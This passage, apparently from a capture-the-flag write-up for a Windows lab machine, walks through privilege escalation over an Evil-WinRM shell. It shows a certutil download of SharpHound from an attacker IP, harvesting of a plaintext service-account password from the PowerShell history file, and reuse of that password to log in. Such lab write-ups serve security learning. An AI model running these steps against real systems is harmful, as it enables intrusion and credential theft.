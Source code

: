 ### Privilege Escalation
It was not possible to upload SharpHound.exe nor SharpHound.ps1
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
At line:1 char:1
+ certutil -urlcache -f http://10.10.14.3/SharpHound.exe SharpHound.exe
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```
First step is to enumerate manually our user:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
No special privileges that could lead to a PrivEsc, it is not possible to run wmic either:
```powershell
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic process list brief
WMIC.exe : ERROR:
Description = Access denied
*Evil-WinRM* PS C:\WIndows\Temp\PrivEsc> wmic computersystem list
WMIC.exe : ERROR:
Description = Access denied
```
A good technique for privilege escalation on Windows is to read the [[Powershell History]] located in the PATH:  ^3ceb21
```powershell
C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
In this case, we found some credentials in clear text on the history:
```powershell
*Evil-WinRM* PS C:\Users\legacyy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
We can use this credentials to access to the machine as the user svc_deploy:
```powershell
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
Now is time to enumerate this user's permissions:
```powershell
*Evil-WinRM* PS C:\Uwhoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
```